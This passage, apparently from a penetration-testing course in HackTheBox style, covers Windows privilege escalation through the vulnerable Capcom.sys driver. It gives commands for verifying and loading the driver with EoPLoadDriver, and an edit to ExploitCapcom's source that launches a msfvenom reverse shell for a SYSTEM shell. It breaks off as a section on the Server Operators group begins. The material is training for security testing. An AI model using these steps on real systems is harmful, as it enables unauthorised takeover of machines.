 #### Verify Capcom Driver is Listed

Next, verify that the Capcom driver is now listed.

```powershell
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

#### Use ExploitCapcom Tool to Escalate Privileges

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell
PS C:\htb> .\ExploitCapcom.exe
```

#### Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.



#### Automating with EopLoadDriver

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

``` batch
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.
### Server Operators

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

#### Service running in SYSTEM but we have Privileges
